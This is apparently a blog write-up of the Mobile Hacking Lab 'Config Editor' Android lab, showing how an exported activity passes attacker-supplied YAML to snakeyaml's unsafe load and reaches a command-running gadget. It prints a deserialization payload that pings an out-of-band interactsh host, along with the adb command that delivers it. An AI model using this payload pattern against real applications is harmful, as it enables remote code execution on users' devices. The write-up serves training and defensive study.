

Since that past few weeks, I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Config Editor.

The goal of the lab is to achieve Remote Code Execution by exploiting vulnerabilities in a third party library.

# Analyzing the Application

First things firt, I decompiled the application with JADX-GUI. Looking at the AndroidManifest.xml file, I notice that the application only has one activity, called the `MainActivity`. This activity is exported and hence can be invoked directly.


Going through the MainActivity class, I started by looking at the `onCreate` function, as that would be our entry-point to this activity.


This function sets up the application UI, event handlers for buttons, and then finally passes control to the `handleIntent` function.


HandleIntent is where the fun begins. This function extracts the data and action from the Intent, which is then passed to the `loadYaml` method.

The `loadYaml` function reads the file provided through the intent data. The contents of this file are then deserialized using the `yaml.load` function.


This is our sink. All YAML functionality in this application is provided via the snakeyaml library, as seen in the imports of the `MainActivity` class.


Also observe that there is a nice gadget provided to us to execute commands:


# Executing the Exploit

Host a `exploit.yml` file with the following content via the python HTTP server. Replace the domain name with another payload from interactsh/burp-collaborator or similar.
```yaml
some_var:
  !!com.mobilehackinglab.configeditor.LegacyCommandUtil
  ["ping hfjbgzlukkcfmdxzfkjzd9k17nkd241lt.oast.fun"]
```
Launch the `MainActivity` and pass the action flag with the value `android.intent.action.VIEW` and the data flag with the URL to your file hosted over the python HTTP server.
```bash
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d http://192.168.1.19:8000/exploit.yml
```

Observe that you receive a hit on your HTTP server.


Observe that a hit is also received on interactsh, proving remote code execution.


# Conclusion

This lab teaches us that third-party libraries can introduce vulnerabilities within your applications. It is important to analyze dependencies both from an offensive as well as defensive perspective to keep the end user safe.